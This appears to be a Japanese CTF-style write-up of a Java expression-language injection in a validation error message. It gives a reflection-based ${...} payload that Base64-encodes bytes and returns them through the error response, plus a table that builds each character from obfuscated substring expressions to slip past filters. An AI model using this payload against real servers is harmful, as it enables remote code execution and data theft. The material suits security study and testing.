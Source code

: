 ```json
{"violations":[{"fieldName":"country","message":"98 is not a valid country"}]}
```

ループさせてbyteを出力させるスクリプトを書いても良さそうだが、Base64を使って一度で出力する方法があるっぽい。  
（`new String`を使ってもできそうな気がするが調べても分からなかった。）

目指す形は以下の通り。  
`Base64.getEncoder().encodeToString(bytes)`を実行することと同じ。

```java
${[].getClass().getClass().getMethods()[2].invoke(null,'java.util.Base64').getMethods()[6].invoke(null).getClass().getMethods()[4].invoke([].getClass().getClass().getMethods()[2].invoke(null,'java.util.Base64').getMethods()[6].invoke(null),<byte配列>)}
```

 文字 | 置き換え後
 -- | --
java.utils. | `[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
B | `[].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()`
a | `[].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())`
s | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())`
e | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())`
6 | `[[],[],[],[],[],[]].size()`
4 | `[[],[],[],[]].size()`
f | `[].getClass().getClass().getDeclaredMethods()[[[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
l | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size())`
g | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
c | `[].getClass().toString().substring([].size(),[[]].size())`
space | `[].getClass().toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())`

コードを組み立てて、jsonを送ると結果がBase64エンコードされた状態で返ってきた。

```json
```